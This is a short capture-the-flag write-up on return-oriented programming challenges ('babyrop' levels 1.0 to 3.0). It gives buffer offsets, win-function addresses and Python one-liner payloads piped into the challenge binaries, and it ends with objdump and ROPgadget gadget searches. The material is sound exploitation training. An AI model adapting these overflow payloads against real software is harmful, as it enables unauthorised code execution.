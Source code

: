 # Return Oriented Programming

## level 1.0

Straightforward; offset and address are given in debug output

```shell
python3 -c 'import sys; sys.stdout.buffer.write(b"a"*56 + b"\xe0\x1d\x40")' | /challenge/babyrop_level1.0
```

## level 1.1

GDB -> `disas challenge` -> `0x0000000000401e48 <+29>:    lea    rax,[rbp-0x70]` -> buffer starts at **rbp-0x70** and return address stored at **rbp+8**

```shell
python3 -c 'import sys; sys.stdout.buffer.write(b"a"*0x78 + b"\x2e\x1d\x40")' | /challenge/babyrop_level1.1
```

## level 2.0

offset given in debug output; GDB -> `info functions` ->

- `win_stage_1()` at **0x402108**
- `win_stage_2()` at **0x4021b5**

```shell
python3 -c 'import sys; sys.stdout.buffer.write(b"a"*0x78 + b"\x08\x21\x40"+b"\x00"*5+b"\xb5\x21\x40")' | /challenge/babyrop_level2.0
```

## level 2.1

GDB ->

- buffer starts at **rbp-0x50**
- `win_stage_1()` at **0x4012c4**
- `win_stage_2()` at **0x401371**

```shell
python3 -c 'import sys; sys.stdout.buffer.write(b"a"*0x58 + b"\xc4\x12\x40"+b"\x00"*5+b"\x71\x13\x40")' | /challenge/babyrop_level2.1
```

## level 3.0

offset given in debug output \
Get addresses of functions and `pop rdi; ret` gadget:

```shell
objdump -t /challenge/babyrop_level3.0 | grep ' F '
ROPgadget --binary /challenge/babyrop_level3.0 | grep "pop rdi ; ret"`
```

